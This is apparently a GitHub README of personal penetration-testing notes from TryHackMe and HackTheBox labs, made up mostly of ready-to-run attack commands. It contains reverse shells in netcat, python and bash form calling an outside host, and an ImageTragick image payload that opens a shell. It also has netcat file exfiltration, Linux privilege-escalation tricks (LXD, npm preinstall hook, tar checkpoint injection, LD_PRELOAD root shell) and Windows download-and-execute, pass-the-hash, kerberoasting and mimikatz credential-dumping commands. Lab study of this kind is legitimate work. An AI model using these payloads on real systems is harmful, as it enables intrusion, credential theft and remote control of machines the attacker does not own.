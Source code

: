 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe and HackTheBxo platforms. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

### [tricks](./other/tricks.md)
### [web](./other/web.md)
---
#### Reverse shells
```nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
```bash
bash -i >& /dev/tcp/10.18.22.27/4444 0>&1
```
<details><summary>CVE-2016–3714</summary>

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```
</details>

---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:
```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```nc
nc -l ATTACKER_PORT > [output_file_path]
```
#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```

---
### Linux Privilege Escalation:
<details><summary> LXD container exploitation </summary> 

```bash
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
</details>
<details><summary> with doas </summary>

```bash
doas -u root openssl enc -in file
doas -u root /bin/bash
```
</details>
<details><summary> with npm -u </summary>

```bash
mkdir ~/tmp
echo '{"scripts": {"preinstall": "/bin/sh"}}' > ~/tmp/package.json
sudo -u serv-manage /usr/bin/npm -C ~/tmp/ --unsafe-perm i
```
</details>

<details><summary>PATH</summary>

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
./app_that_calls_curl
```

</details>

<details><summary>tar</summary>

```bash
cat > /home/andre/backup/rev << EOF
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
EOF
echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"
chmod +x rev
```
</details>

<details><summary>env_keep += LD_PRELOAD</summary>

```
cd /tmp
cat > shell.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
EOF
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```

</details>

#### information gathering
```bash
cat /proc/version
cat /etc/issue
cat /etc/sudoers
ps aux | grep cron
ps
env
ip route
uname -a
netstat # -at -l -t -tp -i
netstat -tupln | grep LISTEN
ss -atur
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -user <user> 2>/dev/null #find files owned by user
find / -type f -perm /4000 2>/dev/null
find / -type f -group <group> -exec ls -l {} + 2>/dev/null
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
nmap --script=vuln <ip>
cat /proc/1/cgroup #if u in docker
```
quik one-line bash script with colorful output to enumerate linux machine
```bash
for cmd in "history" "id" "echo $PATH" "cat /etc/crontab" "sudo -V " "cat /proc/version" "cat /etc/issue" "cat /etc/sudoers" "cat /etc/sudoers.d" "env" "ip route" "uname -a" "netstat -tupln | grep LISTEN" "find / -type f -perm /4000 2>/dev/null" "getcap -r / 2>/dev/null" "cat /etc/exports" "cat /proc/1/cgroup"; do echo  "\n\033[1;34mCommand: $cmd\033[0m"; echo "\033[1;32m$(eval $cmd)\033[0m"; echo  "\033[1;33m\n===================================================================================================\n==================================================================================================="; done
```

#### links
* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
* [GTFOBins (unix)](https://gtfobins.github.io/)
* [g0tmi1k priv esc linux](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [linux backdoors](/other/src/linux_backdoors.md)


---

### Windows

<details><summary> windows system tools </summary>
<details><summary> Local User and Group Management </summary>
It is a shell application to manage Windows system administrator applications.

```bash
lusrmgr.msc
```
</details>
<details> <summary> System Configuration utility </summary>

for diagnose startup issues

```bash
MSConfig
```
</details>
<details> <summary> Task Manager </summary>

to manage (enable/disable) startup items. 
```bash
taskmgr
```
</details>
<details> <summary> User Account Control </summary>
helps prevent unauthorized changes (which may be initiated by applications, users, viruses, or other forms of malware) to an operating system

```bash
UserAccountControlSettings.exe
```
</details>
<details> <summary> Computer Management </summary>
the process of managing, monitoring and optimizing a computer system for performance, availability, security

```bash
compmgmt
```
</details>
<details> <summary> System Information </summary> 
(gathers information about your computer and displays a comprehensive view of your hardware, system components, and software environment, which you can use to diagnose computer issues.)

```bash
msinfo32
```
</details>
<details> <summary> Resource Monitor </summary>
displays per-process and aggregate CPU, memory, disk, and network usage information, in addition to providing details about which processes are using individual file handles and modules

```bash
resmon
```
</details>
<details> <summary> Windows Registry </summary>
central hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices

```bash
regedit
```
</details>
<details><summary>Group policy objects</summary>
a collection of settings that can be applied to OUs
</details>

<details><summary>PowerShell enumeration</summary>

view all of the hidden files in the current directory
```bash
Get-ChildItem -File -Hidden -ErrorAction SilentlyContinue
```
</details>
</details>

<details><summary> SMB enumeration </summary>

enumerate

```bash
enum4linux -h
```
open SMB shares

```bash
smbclient -L $IP
smbclient //$IP/share # -c 'recurse;ls' 
```

enumeration
```bash
smbmap -H $IP
smbmap -H '$IP' -u '' -p '' -R 
smbmap -H '$IP' -u '' -p '' -R -A 'enter.txt' #download file
```

scan with nmap

```bash
nmap -p 139,445 -Pn -script smb-enum* $IP
nmap -p 139,445 -Pn -script smb-vuln* $IP
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

connect with smbclient

```bash
smbclient \\\\$IP\\nt4wrksv
```

</details>

<details><summary>rdp </summary>

```bash
rdesktop -u <username> -p <password> $IP -g 70% -r disk:folder=/home/toor/cd/apps
rdesktop -u Administrator -d CONTROLLER $IP
remmina 
```

</details>

<details><summary>AD</summary>

extract credentials and secrets from a systemdump
```bash
impacket-secretsdump <domain.local>/<user>:<password>@<ip> 
``` 

where we can pht
```bash
crackmapexec smb <ip>/24 -u '<username>' -H <hash> --local-auth                                
```

login with pht
```bash
impacket-psexec <username>@<ip> -hashes <hash>
```

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting
```bash
responder -I eth0 -rdwv
```

DNSRecon - is a powerful DNS enumeration script
```bash
dnsrecon -d <IP> -t axfr
use auxiliary/gather/enum_dns #with metasploit
```

upload file with cmd
```bash
certutil -split -f -urlcache http://<your IP>/file_to_download
powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<your_ip>/<file>")' #execute file without download (!!)
```

evil-winrm - Windows Remote Management (if 5985 or 5986 ports are open)
```bash
evil-winrm -u <username> -p <password> -i <ip>
upload <file on your ps directory> #to upload file
```

kerberoasting
```bash
sudo ntpdate <target ip>
impacket-GetUserSPNs domain.local/Admin:passwd -dc-ip $IP -request
```

runas.exe (to inject the credentials into memory)
```bash
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

mimikatz
```bash
privilege::debug #ensure that the output is "Privilege '20' ok"
lsadump::lsa /patch #dump hashes
lsadump::lsa /inject /name:krbtgt # dumps hash and security id of kerb ticket
kerberos::golden /user: /domain: /sid: /krbtgt: /id: #create a golden ticket!
misc::cmd #open cmd with elevated priveleges to all machines
```

links
* [WADComs (AD)](https://wadcoms.github.io/)

</details>

<details><summary>enumeration</summary>

run powershell with bypass execution policy
```bash
powershell -ep bypass
```

```powershell
whoami /priv #/groups
net user
net users
net localgroups
net user <user>
net group /domain
net user /domain
net user <user> /domain
Get-ADUser(Get-ADGroup) -Identity <user(group)> -Server <domain> -Properties *
Get-ADUser -Filter 'Name -like "*<user>"' -Server <domain> | Format-Table Name,SamAccountName -A
Get-ADUser -Filter 'Name -like "*stevens"' -Server <domain> | Format-Table Name,SamAccountName -A
Get-ADObject -Filter 'badPwdCount -gt 0' -Server za.tryhackme.com
Get-ADDomain
netsh firewall show state
netsh firewall show config
netstat -ano
findstr /si password *.txt # .xml .ini
findstr /spin "password" *.*
dir /s *pass* == *cred* == *vnc* == *config*
```

PowerView.ps1
powershell
Invoke-ShareFinder
Windows 10 Enterprise Evaluation
get-netuser | select cn #enum domain users
Get-NetGroup -GroupName *admin* #enum domain groups
```

meterpreter
```bash
run post/multi/recon/local_exploit_suggester #in session
getsystem
getprivs
load kiwi #download mimikatz
```


- [powerview](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [sushant747 win priv esc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)(with vpn)
- [LOLBAS (windows)](https://lolbas-project.github.io/)
- [JAWS](https://github.com/411Hall/JAWS)
- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)


</details>

---

### links
* [database with CVE exploits](https://cvexploits.io/)
* [explainshell.com](https://explainshell.com/)
* [reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [rapid7](https://www.rapid7.com/)
* [attackerkb](https://attackerkb.com/)
* [cve.mitre.org](https://cve.mitre.org/cve/)
* [exploit-db](https://www.exploit-db.com/)
* [WTFBINS (cve)](https://wtfbins.wtf/)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/)
* [hacktricks](https://book.hacktricks.xyz)
* [bash cheatsheet](https://devhints.io/bash)
* [enumeration guide](https://github.com/beyondtheoryio/Enumeration-Guide)
* [tmpfiles](https://tmpfiles.org/)
* [pentest-checklist](https://github.com/Hari-prasaanth/Web-App-Pentest-Checklist)

####  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)
- [free pass hash cracker](https://crackstation.net/)
- [crack station](https://crackstation.net/)
- [md5decrypt.net](https://md5decrypt.net/en/)
- [vigenere brute force](https://www.guballa.de/vigenere-solver)

#### Tools

* [Git research](https://github.com/internetwache/GitTools)
* [php-jpeg-injector](https://github.com/dlegs/php-jpeg-injector)
* [RustScan](https://github.com/RustScan/RustScan/wiki/Installation-Guide)
* [subchase](https://github.com/tokiakasu/subchase)(subdomains)
* [nmmapper.com](https://www.nmmapper.com/sys/tools/subdomainfinder/)(subdomains)
* [SSRFire](https://github.com/ksharinarayanan/SSRFire)
* [reconftw](https://github.com/six2dez/reconftw)
* [google dorks](/other/src/dorks.md)
* [aquatone](https://github.com/michenriksen/aquatone/releases/tag/v1.7.0)(screenshots)
* [httpx](https://github.com/projectdiscovery/httpx)
* [nuclei](https://github.com/projectdiscovery/nuclei)(scan for vulns)
* [meg](https://github.com/tomnomnom/meg)(fetch many paths for many hosts)
* [arjun](https://github.com/s0md3v/Arjun)(http param discovery)
* [dalfox](https://github.com/hahwul/dalfox)(find xxs)
* [cdncheck](https://github.com/projectdiscovery/cdncheck)(identifying the technology associated with dns)

---
Happy hacking!
